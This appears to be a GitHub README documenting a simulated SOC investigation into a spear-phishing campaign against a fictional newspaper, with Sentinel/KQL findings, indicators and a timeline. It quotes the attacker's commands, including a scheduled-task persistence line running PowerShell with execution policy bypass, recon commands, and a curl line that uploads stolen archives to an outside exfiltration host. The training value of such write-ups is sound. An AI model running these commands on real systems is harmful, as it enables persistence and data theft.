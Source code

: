# 🛡️ Valdorian Times Cybersecurity Breach: A Real-World SOC Investigation 🧠

🎥 **[Watch Full Investigation Video (kql.mp4)](https://drive.google.com/file/d/1b-IJ2acGuVvpFf12_vAxgXWQosKQmrU3/view?usp=drive_link)**  
> A realistic SOC simulation built with KQL, process analysis, phishing forensics, and file exfiltration tracking.

---

## 🚀 Overview

🔍 **Attack Type**: Spear-phishing → Credential Abuse → Scheduled Tasks → Document Forgery → Data Exfiltration  
💻 **Tech Used**: Microsoft Sentinel, KQL, PowerShell, Passive DNS  
🎯 **Goal**: Find out how attackers used fake editorial documents and stolen intern accounts to inject misinformation and steal data.

---

## 📊 Phase 1: Initial Recon & Activity

### 🔍 Lois Lane
- IP Address: `10.10.0.22`
- Visited: **62 unique websites**

### 🌐 Passive DNS Search
- Domains containing `"hire"`: **6**
- `jobhire.org` resolved to: `191.7.248.112`

### 🧑 Mary Activity
- Unique Websites: **58**
- Authentication Attempts: **70**

---

## 📩 Phase 2: Suspicious Email to Clark Kent

- Email received from: **ronnie_mclovin@valdoriantimes.news**
- Subject: `URGENT: Final OpEd Draft Edits`
- Attachment: `OpEdFinal_to_print.docx`
- Sent on: `2024-01-31T11:11:12.000Z`
- Clark received **21 total emails**

Ronnie claims she never sent this email. Compromise suspected.

---

## 🕵️‍♀️ Phase 3: Sonia Gose - The Senior Editor's Lead

- IP: `10.10.0.3`
- Host: `UL0M-MACHINE`
- Received phishing email from: `newspaper_jobs@gmail.com`
- Timestamp: `2024-01-05T09:42:05.000Z`
- Link: `https://promotionrecruit.com/published/Valdorian_Times_Editorial_Offer_Letter.docx`

### 📥 File Details
- Downloaded: `C:\Users\sogose\Downloads\Valdorian_Times_Editorial_Offer_Letter.docx`
- SHA256: `60b854332e393a6a2f0015383969c3ac705126a6b7829b762057a3994967a61f`

### 🪲 Malware Drop
- Dropped file: `hacktivist_manifesto.ps1`
- Created: `2024-01-05T10:24:32.000Z`

### 🛠 Scheduled Task
```bash
schtasks /create /sc hourly /mo 5 /tn "Hacktivist Manifesto" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\hacktivist_manifesto.ps1"
```
### 🧪 Commands Executed by the Attacker

After establishing a tunnel using `plink.exe`, the attacker executed the following commands on the compromised machine to perform network discovery and system enumeration:

```bash
whoami           # Identify the currently logged-in user
ipconfig         # Display IP configuration details
arp -a           # View the ARP cache to identify nearby network devices
tasklist /svc    # List running tasks along with associated services
net view         # Discover shared resources on the local network
```
---

## 💻 Phase 4: Ronnie McLovin - Intern Breach

- **IP**: `10.10.0.19`  
- **Host**: `A37A-DESKTOP`  
- **Received Email From**: `valdorias_best_recruiter@gmail.com`  
- **Timestamp**: `2024-01-10T08:48:16.000Z`  
- **Link Domain**: `promotionrecruit.org`

### 📥 File Details

- **Downloaded File**: `Editorial_J0b_Openings_2024.docx`
- **Dropped Payload**: `hacktivist_manifesto.ps1`  
- **Drop Time**: `2024-01-10T08:55:51.000Z`

### 🧠 Attacker Action

- **plink.exe Executed**  
  - **C2 IP**: `168.57.191.100`  
  - **Credentials Used**:  
    - Username: `$had0w`  
    - Password: `thruthW!llS3tUfree`

- **Scheduled Task Created**  
  - **Time**: `2024-01-10T10:26:32.000Z`  

- **Recon Commands Executed**:
```bash
whoami
ipconfig
arp -a
tasklist /svc
net view
```
---
## 📄 Phase 5: fakestory.docx → OpEdFinal_to_print.docx

- **Domain**: `hire-recruit.org`  
- **Downloaded File**: `fakestory.docx`  
- **SHA256**: `5f8a7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f`  
- **Created On**: `2024-01-31T09:47:51.000Z`

### ➡️ Renamed & Moved
```plaintext
C:\Users\romclovin\Documents\OpEdFinal_to_print.docx
```
Timestamp: 2024-01-31T10:26:20.000Z

📧 Sent via Email to Clark Kent: 2024-01-31T11:11:12.000Z
⏱️ Elapsed Time: 44 minutes

---

## 📦 Phase 6: Data Theft & Exfiltration

### 🗃️ Files Created by the Attacker
- `DankMemes.7z`
- `MyStolenDataFromDocuments.7z`
- `MyStolenDataFromDesktop.7z`

🔐 **Password for All Archives**: `thruthW!llS3tUfree`

### 📤 Exfiltration Command
```bash
curl -F "file=@C:\Users\romclovin\Documents\*.7z" https://hirejob.com/exfil_processor/upload.php

```
🌐 Destination Domain: hirejob.com
---
## 📂 Repository Structure

```bash
Valdorian-Incident-Investigation/
├── README.md                      # 📝 Project summary and case details
├── kql.mp4                        # 🎥 Full investigation video
├── data/
│   ├── IOC_list.txt               # 📄 IPs, hashes, domains
│   └── investigation_logs.txt     # 🕵️ Full attack timeline & investigation steps
├── assets/
│   └── phishing_flowchart.png     # 🧭 (Optional) Visual representation of phishing chain
```
---
## 🧠 Learnings

✅ **KQL in action**: Real queries across web, DNS, authentication & process logs  
✅ **Tracking PowerShell scripts and scheduled tasks**  
✅ **Detecting spear-phishing and content spoofing**  
✅ **Building incident timelines from metadata**  
✅ **Reconstructing the attack chain from internal telemetry**
---------------------------------------------------------------------------------------------------------------
